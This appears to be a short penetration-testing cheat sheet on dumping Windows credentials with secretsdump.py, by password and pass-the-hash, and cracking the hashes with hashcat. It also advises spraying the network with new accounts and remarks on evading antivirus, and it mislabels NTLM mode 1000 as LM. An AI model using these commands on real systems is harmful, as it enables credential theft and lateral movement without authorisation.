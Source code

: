 ## Dumping and Cracking Hashes

### Secrets Dump with password
- `secretsdump.py <domain>/<username>:'<password>'@<ip>`

  ![image](https://github.com/user-attachments/assets/89c1e61e-63a6-4512-bf63-81939609e2fb)

  Things to note:
  - SAM hashes (admin and users)
  - DCC2 hash (to try to crack)
  - Cleartext passwords (if any)
    
- Dump secrets for all machines you have logon

  ![image](https://github.com/user-attachments/assets/c936e6a1-c058-42ca-8edc-2d5bc0f74bd7)

- Consider scripting for all machines

### Secrets Dump with Hash
- `secretsdump.py <user>@<ip> -hashes <hash>`

  ![image](https://github.com/user-attachments/assets/3ed684fa-f323-4e92-9886-9561b43b5264)

- Keep spraying network with new accounts found

### Cracking Hash
- Crack the LM: `hashcat -m 1000 lm.txt /usr/share/wordlists/rockyou.txt`

  ![image](https://github.com/user-attachments/assets/04fd158e-c9f1-4159-8e9a-d02b3f2afc76)

- So far, not likely to be picked up by antivirus

